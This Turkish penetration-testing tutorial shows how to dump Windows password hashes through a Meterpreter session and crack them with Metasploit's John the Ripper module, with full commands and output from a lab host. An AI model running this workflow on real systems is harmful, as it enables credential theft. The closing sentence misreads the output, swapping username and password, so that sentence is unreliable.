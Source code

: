 ```yaml
---
draft: false

title:  'MSF İçinde John The Ripper'
date: '2017-06-05T13:42:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'John The Ripper programı, karmaşık algoritmalı parolaları çözmek için kullanılan bir programdır. Bir takım kelime listelerini kullanarak hash olarak kaydedilmiş kodları çözmeye çalışır.' 
 
url:  /tr/msf-icinde-john-the-ripper/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## John the Ripper



John The Ripper programı, karmaşık algoritmalı parolaları çözmek için kullanılan bir programdır. Bir takım kelime listelerini kullanarak hash olarak kaydedilmiş kodları çözmeye çalışır.



Metasploit içerisinde de John The Ripper kullanabilirsiniz. Burada kullanılacak John the Ripper, basit algoritmalarla ilgilenir. Çok karmaşık ve ileri düzey hash kodları için Metasploit dışında çalışmanız gerektiğini belirtelim. Metasploit içindeki John the Ripper, sadece LM veya NTLM hash kodlarını çözmek için başlangıç düzeyinde işlem yapmanıza yarar. Bir örnekle görelim.



Öncelikle hedef bilgisayarda meterpreter oturum açtığımızı kabul ediyoruz. `session 1` olarak aktif halde olan oturum için `post/windows/gather/hashdump` modülünü aktif hale getirip hash bilgilerini alalım.


```bash
msf auxiliary(handler) > use post/windows/gather/hashdump
msf post(hashdump) > set session 1
session => 1
 
msf post(hashdump) > run

> Obtaining the boot key...
> Calculating the hboot key using SYSKEY bffad2dcc991597aaa19f90e8bc4ee00...
> Obtaining the user list and keys...
> Decrypting user keys...
> Dumping password hashes...


Administrator:500:cb5f77772e5178b77b9fbd79429286db:b78fe104983b5c754a27c1784544fda7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:810185b1c0dd86dd756d138f54162df8:7b8f23708aec7107bfdf0925dbb2fed7:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:8be4bbf2ad7bd7cec4e1cdddcd4b052e:::
rAWjAW:1003:aad3b435b51404eeaad3b435b51404ee:117a2f6059824c686e7a16a137768a20:::
rAWjAW2:1004:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::


> Post module execution completed
```



Hash bilgilerini ekranda görebilirsiniz. Şimdi `auxiliary/analyze/jtr_crack_fast` modülünü kullanalım.


```bash
msf post(hashdump) > use auxiliary/analyze/jtr_crack_fast
msf auxiliary(jtr_crack_fast) > run

> Seeded the password database with 8 words...

guesses: 3  time: 0:00:00:04 DONE (Sat Jul 16 19:59:04 2011)  c/s: 12951K  trying: WIZ1900 - ZZZ1900
Warning: passwords printed above might be partial and not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 7 password hashes with no different salts (LM DES [128/128 BS SSE2])
> Output: D                (cred_6:2)
> Output: PASSWOR          (cred_6:1)
> Output: GG               (cred_1:2)
Warning: mixed-case charset, but the current hash type is **case**-insensitive;
some candidate passwords may be unnecessarily tried more than once.
guesses: 1  time: 0:00:00:05 DONE (Sat Jul 16 19:59:10 2011)  c/s: 44256K  trying: **||**V} - **||**|}
Warning: passwords printed above might be partial and not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 7 password hashes with no different salts (LM DES [128/128 BS SSE2])
> Output: Remaining 4 password hashes with no different salts
> Output: (cred_2)
guesses: 0  time: 0:00:00:00 DONE (Sat Jul 16 19:59:10 2011)  c/s: 6666K  trying: 89093 - 89092
> Output: Loaded 7 password hashes with no different salts (LM DES [128/128 BS SSE2])
> Output: Remaining 3 password hashes with no different salts
guesses: 1  time: 0:00:00:11 DONE (Sat Jul 16 19:59:21 2011)  c/s: 29609K  trying: zwingli1900 - password1900
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 6 password hashes with no different salts (NT MD4 [128/128 SSE2 + 32/32])
> Output: password         (cred_6)
guesses: 1  time: 0:00:00:05 DONE (Sat Jul 16 19:59:27 2011)  c/s: 64816K  trying: **||**|}
Use the "--show" option to display all of the cracked passwords reliably
> Output: Loaded 6 password hashes with no different salts (NT MD4 [128/128 SSE2 + 32/32])
> Output: Remaining 5 password hashes with no different salts
> Output: (cred_2)
guesses: 0  time: 0:00:00:00 DONE (Sat Jul 16 19:59:27 2011)  c/s: 7407K  trying: 89030 - 89092
> Output: Loaded 6 password hashes with no different salts (NT MD4 [128/128 SSE2 + 32/32])
> Output: Remaining 4 password hashes with no different salts

[+] Cracked: Guest: (192.168.184.134:445)
[+] Cracked: rAWjAW2:password (192.168.184.134:445)
> Auxiliary module execution completed
msf auxiliary(jtr_crack_fast) >
```



Görüldüğü gibi `192.168.184.134` IP adresinde `Guest` kullanıcısı için parola `rAWjAW2` olarak bulundu.
